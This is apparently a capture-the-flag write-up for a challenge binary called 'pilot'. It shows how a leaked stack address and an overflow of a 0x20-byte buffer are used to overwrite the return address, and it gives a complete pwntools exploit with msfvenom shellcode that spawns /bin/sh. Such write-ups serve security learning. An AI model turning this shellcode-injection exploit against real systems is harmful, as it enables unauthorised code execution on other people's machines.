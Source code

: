 # App

![image](https://user-images.githubusercontent.com/115867891/206476635-24d9e518-829e-4bc1-aa58-a1ca3bcc2d18.png)

No mitigations => V-EASY

# Dissasembly

It's poluted with `std::`, yay...Hard to find out how to place breakpoint.

`Trick: use info file, and get that entry point address, then make your way with stepin`

Also, check `mov     rdi, offset main ; main` - will give you address of main function.

Basically the dissasembly actually **leaks** the address of the start of the buffer. The buffer can hold 0x20 bytes, but we can read
0x40 (0n60) bytes.

The stack shows 0x28 bytes until return address.

![image](https://user-images.githubusercontent.com/115867891/206478866-9a3ea94a-1549-40f0-9d59-7c02f8781a71.png)

Therefore, since we have:

- a leak address from the stack (beginning of the buffer)
- no flag or function that cand call the flag whatsoever

We need a shellcode that would esentially be small enough to fit, and the to overwrite the return address with the leaked address (which will be
the start of the shellcode).

# Exploit

`msfvenom -p linux/x64/exec --smallest -f python` - generate a shellcode

Shellcode size is 0x15, therefore we must add padding in our payload of size = (0x28 - 0x15) with something (NOPs in this case, why not), and then the leaked address

```
from pwn import *
import sys

target = process('./pilot')

print(target.recvuntil("[*]Location:"))

leak = target.recvline()
leak_addr = int(leak.strip(b"\n"), 16)

print()
print("Leaked address : ", hex(leak_addr))

# 0x28 bytes between start of buffer (leaked addr)
# and return address
DISTANCE = 0x28

# overwrite ret addr with leaked address and place shellcode there
# msfvenom -p linux/x64/exec --smallest -f python
# Payload size: 21 bytes (0x15)
PAYLOAD_SIZE = 0x15
buf =  b""
buf += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54"
buf += b"\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

payload = buf + b'\x90' * (DISTANCE - PAYLOAD_SIZE) + p64(leak_addr)
print("Payload : ", payload)

target.send(payload)
target.interactive()
```

![image](https://user-images.githubusercontent.com/115867891/206479714-c71ebc33-77d4-4471-8550-c92fccd55c7a.png)
